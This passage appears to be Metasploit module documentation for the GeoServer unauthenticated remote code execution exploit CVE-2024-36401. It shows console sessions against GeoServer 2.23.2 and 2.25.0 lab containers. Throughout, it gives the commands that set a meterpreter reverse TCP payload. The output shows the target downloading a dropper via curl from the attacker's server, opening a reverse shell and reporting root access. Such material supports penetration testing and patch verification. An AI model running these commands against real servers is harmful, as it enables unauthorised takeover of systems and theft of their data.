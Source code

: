 ```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set srvport 1981
srvport => 1981
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target is vulnerable. Version 2.23.2
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/FEflDEJ
[*] Client 192.168.201.42 (curl/7.74.0) requested /FEflDEJ
[*] Sending payload to 192.168.201.42 (curl/7.74.0)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 10 opened (192.168.201.8:4444 -> 192.168.201.42:60353) at 2024-07-11 18:48:02 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.21.0.2
OS           : Debian 11.3 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/mnt/geoserver
meterpreter >
```
###  GeoServer 2.25.0 on osgeo.org/geoserver docker image - linux/x64/meterpreter_reverse_tcp
```msf
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set target 1
target => 1
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > set payload linux/x64/meterpreter_reverse_tcp
payload => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/http/geoserver_unauth_rce_cve_2024_36401) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Trying to detect if target is running a vulnerable version of GeoServer.
[+] The target is vulnerable. Version 2.25.0
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:1981/CEkJIBo
[*] Client 192.168.201.42 (curl/7.81.0) requested /CEkJIBo
[*] Sending payload to 192.168.201.42 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Meterpreter session 11 opened (192.168.201.8:4444 -> 192.168.201.42:61350) at 2024-07-11 20:46:14 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 22.04 (Linux 6.6.32-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
```